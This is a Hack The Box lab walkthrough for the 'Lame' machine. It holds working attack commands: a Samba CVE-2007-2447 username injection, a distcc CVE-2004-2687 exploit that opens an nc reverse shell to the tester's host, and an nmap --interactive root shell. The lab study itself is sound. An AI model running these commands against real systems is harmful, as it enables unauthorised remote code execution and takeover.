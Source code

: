 # Lame Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -T4 -p- -sV -oA fulllame 10.10.10.3``

![image](https://user-images.githubusercontent.com/123066149/227914441-6062cc6b-cf8e-42a9-9c72-e1bc5f1d13c7.png)

``smbmap -H 10.10.10.3``

![image](https://user-images.githubusercontent.com/123066149/227914624-f72106f8-18fc-4cbf-b30a-4fa719dd2118.png)

``smbclient //10.10.10.3/tmp``

### Target is vulnerable to CVE-2007-2447 

### The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) ### SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.


### POC :

``logon "/=`nohup ping -c 2 10.10.16.3`"``

![image](https://user-images.githubusercontent.com/123066149/227915121-e81e5d96-d2fa-4b0c-a677-2396bf1ad7c0.png)

![image](https://user-images.githubusercontent.com/123066149/227915538-909ce755-c397-4d11-ab41-4c3d81b64a4e.png)

### I used thie exploit :

https://github.com/amriunix/CVE-2007-2447

![image](https://user-images.githubusercontent.com/123066149/227916810-6209f211-c8b8-43c3-b48f-93dc98acff44.png)


# ${{\color{purple}Initial Foothold}}\ $

nmap --script vuln 10.10.10.3 -p 3632

![image](https://user-images.githubusercontent.com/123066149/227918971-c481c332-b91a-4118-bf21-8036c2cca88f.png)

# ${{\color{purple}Exploitation}}\ $

nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687.nse --script-args="distcc-exec.cmd='id'"

![image](https://user-images.githubusercontent.com/123066149/227919097-ed13e420-f29d-4a03-b4c4-e0c8fd95297c.png)

![image](https://user-images.githubusercontent.com/123066149/227919317-d69b3b14-b0e3-4753-a894-f4efd49c2c88.png)

### i used this exploit :

https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855

``python2.7 distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c 'nc -c sh 10.10.16.3 9001'``

![image](https://user-images.githubusercontent.com/123066149/227919838-a1debd22-3d6e-4913-bd2e-5ea2346b415f.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/227919996-4c385cfb-e1dc-4963-b96e-cd01a8ea5194.png)

``nmap --interactive``
``!sh``

![image](https://user-images.githubusercontent.com/123066149/227920158-d2c8b115-e35a-4ade-a3c4-b447ebdf47bf.png)


# ${{\color{purple}Points of Improvement}}\ $

* Find version of ubuntu : ``lsb_release -a``
